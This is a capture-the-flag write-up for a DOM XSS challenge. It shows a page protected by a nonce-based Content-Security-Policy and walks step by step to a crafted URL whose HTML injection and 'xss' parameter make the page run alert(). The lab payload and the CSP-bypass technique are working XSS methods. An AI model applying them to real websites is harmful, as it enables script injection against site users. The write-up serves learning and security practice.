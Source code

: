 ```yaml
---
title: "<script>alert()</script>"
layout: page
---
```


- CSP 
- DOM 
- XSS 
- JavaScript 
- Web Security
- Hard

Writeup by `kecskemekeg`

# Mission brief
Can you make sense of the complexity and inject some malicious JavaScript into this website?

## Instructions
Your goal is to craft a URL that triggers an alert box when opened in Google Chrome (without any user interaction). The URL will be the flag.

## Glossary
### CSP
By injecting the Content-Security-Policy (CSP) headers from the server, the browser is aware and capable of protecting the user from dynamic calls that will load content into the page currently being visited.
https://cheatsheetseries.owasp.org/

### DOM XSS
DOM Based XSS is an XSS attack wherein the attack payload is executed as a result of modifying the DOM "environment" in the victim's browser used by the original client-side script, so that the client-side code runs in an "unexpected" manner. That is, the page itself (the HTTP response that is) does not change, but the client-side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.
https://cheatsheetseries.owasp.org/

---

# Writeup
**This challenge happens on a website**

```html
<html>
  <head>
    <title></title>
    <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'none'; script-src 'unsafe-eval' 'strict-dynamic' 'nonce-0290f74d68574e4bb4ac5b7d396ec216'; style-src 'nonce-0290f74d68574e4bb4ac5b7d396ec216'"
    />

    <style nonce="0290f74d68574e4bb4ac5b7d396ec216">
      body {
        background: #23a6d5;
        background-size: 400% 400%;
      }
      
      .cheat {
        min-height: 100vh;
        display: flex;
        justify-content: center;
        align-items: center;
        font-family: "Comic Sans MS", cursive, sans-serif;
        font-weight: bold;
      }
      .attribute-breaker {
        display: none;
      }
    </style>
  </head>
  <body id="doc-body">
    <script nonce="0290f74d68574e4bb4ac5b7d396ec216">
      window.addEventListener("DOMContentLoaded", function () {
        let yw = `)]}'` + new URL(location.href).searchParams.get("xss");
        let ce = document.getElementById("doc-body").lastElementChild;
        if (ce.id == "hesoyam") {
          let oe = ce.lastElementChild;
          let ct = oe.innerHTML.trim();
          let lfc = ct.substr(ct.length - 4);
          yw = lfc + yw;
        }
        let s = document.createElement("script");
        s.type = "text/javascript";
        s.appendChild(document.createTextNode(yw));
        document.body.appendChild(s);
      });
    </script>
    <!-- !!! -->
    <div id="html"><!-- ?html=YOUR_INPUT --></div>
    <!-- !!! -->
    <div class="attribute-breaker">'"</div>
    <div class="cheat">
      <code> Do you need some extra help? It should be useful: //// </code>
    </div>
  </body>
</html>
```

First I opened the source code and the Inspector to see the html code. It was obvious that we need a `<div>` with id="hesoyam" as the last element so I closed the previous one and opened a new one with the code
`/?html=</div><div%20id=hesoyam>`
I saw that this way it won't be the last element so I added another `<div>` to eat the closing `</div>`
`/?html=</div><div%20id=hesoyam><div>`
From the source code you can see that the script will consists of the last four characters of the `innerhtml` of the last element of `<div id=hesoyam> + )]}'` + your XSS code
I needed a way to manipulate the last four characters so I tried what would happen if I made syntax error on purpose.
`/?html=</div><div%20id=hesoyam><div><x`
This behaviour was very unexpected but perfect for me. Next my idea was to put the unnecessary characters in a string.
This is the first half of the string
`/?html=</div><div%20id=hesoyam><div><x"%27`
Then I only needed the xss code with the last part of the string.
`/?html=</div><div%20id=hesoyam><div><x"%27&xss=";alert()`
And this was the solution.

(note: injecting any script tag would never work because this site had content-security-policy enabled /Sasszem/)